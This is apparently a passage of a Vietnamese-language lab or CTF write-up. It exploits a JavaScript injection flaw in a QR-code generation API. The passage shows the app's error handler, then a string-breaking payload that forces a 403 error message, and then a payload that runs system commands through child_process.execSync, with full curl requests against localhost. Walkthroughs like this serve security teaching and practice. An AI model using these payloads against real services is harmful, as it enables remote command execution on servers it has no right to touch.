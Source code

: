 Trong mã nguồn, phần `catch` của ứng dụng có đoạn sau:

```javascript
try {
  // ... code xử lý ...
} catch (e) {
  if (e.statusCode === 403) {
    return next(e);
  } else {
    return next({
      message: "Could not generate QR code.",
      statusCode: 500,
    });
  }
}
```

Để có thể nhận được thông báo chi tiết từ phản hồi, mã tiêm của chúng ta cần phải đưa ra một lỗi có mã trạng thái là `403`. Nếu không, ứng dụng sẽ quay lại thông báo mặc định với mã 500, và chúng ta không thể tiêm kết quả lệnh vào trong đó.

### Tiêm Mã Để Thêm `statusCode: 403`
Chúng ta sẽ thử gửi một yêu cầu với payload tiêm mã đơn giản để tạo ra thông báo với `statusCode` là 403. Đây là cách payload sẽ trông như thế này:

```json
{
  "text": "test message', statusCode: 403})//"
}
```

Gửi yêu cầu này sẽ khiến thông báo `test message` được hiển thị trong phản hồi:

```bash
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1N...SNIP...1YLEvDs4SR7RHfQ" -d "{ \"text\": \"test message', statusCode: 403})//\" }" http://localhost:5000/api/service/generate
```

**Kết quả**: Phản hồi hiển thị `"message": "The input \"test message"`.

### Tiêm Kết Quả Lệnh vào Phản Hồi
Giờ chúng ta có thể tiến hành tiêm kết quả từ lệnh hệ thống vào thông báo lỗi này. Dưới đây là payload mới sẽ tiêm mã JavaScript vào phản hồi:

```json
{
  "text": "' + require('child_process').execSync('ls').toString() + `', statusCode: 403})//"
}
```

Chúng ta sử dụng dấu backtick (`` ` ``) thay vì dấu nháy đơn để tránh gặp phải vấn đề thoát ký tự trong JSON và dễ dàng tránh lỗi trong cấu trúc của câu lệnh.

**Lệnh cURL** sẽ trông như sau:

```bash
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1N...SNIP...1YLEvDs4SR7RHfQ" -d "{ \"text\": \"' + require('child_process').execSync('ls').toString() + \`', statusCode: 403})//\" }" http://localhost:5000/api/service/generate
```
